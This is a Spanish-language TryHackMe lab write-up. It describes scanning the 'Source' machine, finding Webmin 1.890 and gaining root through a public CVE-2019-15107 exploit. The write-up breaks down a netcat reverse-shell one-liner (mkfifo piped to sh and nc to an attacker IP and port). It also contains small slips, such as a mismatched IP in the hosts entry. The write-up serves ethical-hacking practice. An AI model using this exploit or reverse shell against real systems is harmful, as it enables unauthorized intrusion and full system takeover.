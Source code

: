 ```yaml
---
title: 'Source - TryHackMe'
description: "En esta ocasión, abordaremos la máquina Source de la plataforma TryHackMe. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados."
pubDate: 'Oct 15 2024'
categories: ['WriteUp', 'TryHackMe']
--- 
```


## Introducción

**[TryHackMe](https://tryhackme.com/)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina Source. Nos encontraremos con el servicio Webmin 1.890 y haremos uso de un Backdoor RCE exploit CVE-2019-15107 para acceder al servicio con privilegios elevados.

![Source yw4rf](../../../assets/TryHackMe/source/source-tryhackme.png)

```
Platform: TryHackMe
OS: Linux
Level: Easy
```

## Scanning (Escaneo)

```
Target: 10.10.146.135
```

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.

![Source yw4rf](../../../assets/TryHackMe/source/source-1.png)

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.

![Source yw4rf](../../../assets/TryHackMe/source/source-2.png)

- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `-vvv`: Modo muy detallado (muestra más información durante el escaneo).
- `10.10.146.135`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/tcp** y **1000/tcp**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Source yw4rf](../../../assets/TryHackMe/source/source-3.png)

## Enumeration (Enumeración)

##### 22/SSH 

La versión de **OpenSSH es 7.6p1**, y se está utilizando el protocolo 2.0. También se muestran las claves públicas **RSA**, **ECDSA** y **ED25519** utilizadas por el servidor SSH. Se podría utilizar la vulnerabilidad **CVE-2018-15473**, que permite a un atacante obtener información sobre los nombres de usuario válidos en el sistema. Lo que puede facilitar a ataques de fuerza bruta.

##### 10000/Webmin 

El servicio **Webmin** presenta la versión **MiniServ es 1.890**, nos indica que hay una página **http** la cual es accesible.

![Source yw4rf](../../../assets/TryHackMe/source/source-4.png)

Al acceder a ella mediante la URL: `http://10.10.146.135:10000` nos redirige a está página que nos indica **"This web server is running in SSL mode. Try the URL `https://ip-10-10-146-135.eu-west-1.compute.internal:10000/` instead"** 

![Source yw4rf](../../../assets/TryHackMe/source/source-5.png)

Al ingresar a la URL correspondiente nos salta **"This site can´t be reached"** esto se debe a que no tenemos el sitio en nuestro **/etc/hosts** por lo tanto debemos agregarlo

![Source yw4rf](../../../assets/TryHackMe/source/source-6.png)

Esto lo haremos mediante `sudo nano /etc/hosts` se requieren permisos de super usuario para la escritura.

![Source yw4rf](../../../assets/TryHackMe/source/source-7.png)

Agregamos la linea `10.10.146.145  ip-10-10-146-135.eu-west-1.compute.internal` y ahora deberiamos poder acceder

![Source yw4rf](../../../assets/TryHackMe/source/source-8.png)

Nos encontramos con un **panel de autenticación Webmin** y como no tenemos usuario ni contraseña, buscaremos más información sobre la version 1.890 de **Webmin**

![Source yw4rf](../../../assets/TryHackMe/source/source-9.png)

Al buscar en Google "**webmin 1.890 github**" nos salen varios exploits. En mi caso, el que más me intereso fue el de **[MiurlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)** 

![Source yw4rf](../../../assets/TryHackMe/source/source-10.png)

## Vulnerability (Vulnerabilidad)

**[CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)**: El atacante puede enviar una solicitud http maliciosa a la página del formulario de solicitud de restablecimiento de contraseña y ejecutar comandos arbitrarios en el sistema operativo subyacente sin necesidad de autenticación. La vulnerabilidad está presente en las versiones 1.882 <<< 1.921

![Source yw4rf](../../../assets/TryHackMe/source/source-11.png)

Usaremos el exploit de **[MiurlandOracle](https://github.com/MuirlandOracle/CVE-2019-15107)**. Convierto la URL del exploit a **Raw**

![Source yw4rf](../../../assets/TryHackMe/source/source-12.png)

Luego de convertir la URL, lo descargo con `wget` 

![Source yw4rf](../../../assets/TryHackMe/source/source-13.png)

Una vez instalado el exploit, ejecuto el parametro `-h` para ver los posibles comandos

![Source yw4rf](../../../assets/TryHackMe/source/source-14.png)

Una vez entendido como funciona el exploit, lo ejecutamos. En este caso se ejecuta `python3 CVE-2019-15107.py 10.10.146.135 -p 10000` lo cual nos da control total a la máquina

![Source yw4rf](../../../assets/TryHackMe/source/source-15.png)

Es posible escribir `shell` para obtener una **Reverse Shell**. En mi caso, utilizare está:

![Source yw4rf](../../../assets/TryHackMe/source/source-16.png)

- `rm /tmp/f;`: Elimina cualquier archivo existente en `/tmp/f`. Esto se hace para asegurarse de que no haya un archivo con el mismo nombre que pueda interferir con la creación de la fifo (ver a continuación).
- `mkfifo /tmp/f;`: Crea una fifo (First-In-First-Out) en `/tmp/f`. Una fifo es un tipo de archivo especial que permite la comunicación entre procesos. En este caso, se utiliza para redirigir la entrada y salida estándar.
- `cat /tmp/f`: Lee el contenido de la fifo `/tmp/f` y lo envía a la salida estándar.
- `sh -i`: Ejecuta una shell interactiva (`sh`) con la entrada estándar (`-i`) conectada a la salida estándar de `cat`.
- `2>&1`: Redirige la salida de error (`2`) a la salida estándar (`1`). Esto permite que los errores se muestren en la salida estándar.
- `nc 10.21.66.133 1777`: Conecta a un servidor netcat (`nc`) en la dirección IP `10.21.66.133` y el puerto `1777`. El servidor netcat escucha la conexión y envía la salida estándar a la fifo `/tmp/f`.
- `>/tmp/f`: Redirige la salida estándar de la shell interactiva a la fifo `/tmp/f`.

Al estar en escucha con **NetCat** por el **puerto 1777** nos dará acceso la **Reverse Shell**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-17.png)

Una vez tenemos acceso verificamos que somos **root** por lo tanto no es necesario escalar privilegios. Hare **tty treatment** para no tener problemas inncesarios y que la shell sea mas comoda a la hora de utilizarla luego de la **reverse shell**.

![Source yw4rf](../../../assets/TryHackMe/source/source-18.png)

![Source yw4rf](../../../assets/TryHackMe/source/source-19.png)

Una vez tratada la tty verificamos si somos **root**
 
![Source yw4rf](../../../assets/TryHackMe/source/source-20.png)

Somos **root** y tenemos control total de la máquina, por lo tanto la hemos finalizado. Restaria encontrar las **flags**.


<br>